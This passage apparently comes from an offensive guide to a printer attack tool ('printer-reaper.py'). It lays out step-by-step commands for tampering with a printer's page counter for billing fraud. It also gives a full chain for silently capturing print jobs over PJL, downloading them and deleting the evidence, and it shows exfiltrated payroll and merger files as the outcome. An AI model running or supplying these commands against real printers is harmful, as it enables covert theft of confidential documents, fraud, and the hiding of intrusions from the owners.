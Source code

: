 **Impact**: Wasted resources, degraded quality

---

### Attack 4.3: Page Counter Manipulation

**Objective**: Reset or modify page counter

```bash
# View current count
> pagecount
Current page count: 123456

# Reset counter
> pagecount 0

# Set to specific value
> pagecount 999999
```

**Impact**: Billing fraud, maintenance bypass

---

## 🎣 Print Job Capture

### Attack 5.1: Silent Job Interception

**Objective**: Capture print jobs without detection

**Full Attack Chain:**
```bash
# 1. Connect to printer
python3 printer-reaper.py <target> pjl

# 2. Enable job retention
> hold

# 3. Start capture mode
> capture
Capture mode enabled

# 4. Configure capture directory
mkdir -p exfiltrated/$(date +%Y%m%d)

# 5. Wait for jobs...
# (Jobs automatically saved)

# 6. Periodically download captured jobs
> ls /tmp/jobs
> download /tmp/jobs/job001.ps

# 7. Clean up evidence
> pjl_delete /tmp/jobs/job001.ps

# 8. Disable capture before leaving
> backdoor_remove
> exit

# 9. Analyze captured jobs
$ ls exfiltrated/
confidential_report.pdf
payroll_data.xlsx
merger_documents.docx
```

